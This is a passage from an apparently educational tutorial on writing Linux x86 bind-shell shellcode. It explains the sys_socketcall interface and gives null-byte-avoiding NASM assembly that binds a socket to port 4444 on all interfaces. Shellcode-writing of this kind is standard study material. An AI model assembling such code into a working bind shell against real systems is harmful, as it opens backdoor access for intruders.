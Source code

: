 Moreover, don't forget the definition of `sys_socketcall`:

```cpp
int syscall(SYS_socketcall, int call, unsigned long *args);
```

In particular, in the case of the `bind` function, you can't use `ECX`, `EDX`, and so on, because they would be passed to `sys_socketcall`. Just like before (see chapter *Socket creation*), the arguments are passed as a pointer, using the `ECX` register.

Follows the assembly code:

```nasm
    ; INADDR_ANY (0x00000000)
    dec ebx
    push ebx
    
    ; 0x0002 -> AF_INET
    ; 0x115c -> htons(4444)

    push WORD 0x5c11

    mov bl, 2
    push WORD bx
    ; push 0x5c110002

    ; save the pointer to the struct for later
    mov ecx, esp
    
    ; 3rd argument of bind(): size of the struct
    ; push 16
    rol bl, 3
    push ebx

    ; 2nd argument of bind(): pointer to the struct
    push ecx

    ; 1st argument of bind(): file descriptor of the server socket
    mov esi, eax
    push eax
    
    ; syscall socketcall
    xor eax, eax
    mov al, 102

    ; 1st argument of socketcall(): call SYS_BIND
    ror bl, 3

    ; 2nd argument of socketcall(): pointer to the parameters of bind()
    mov ecx, esp

    int 0x80
```
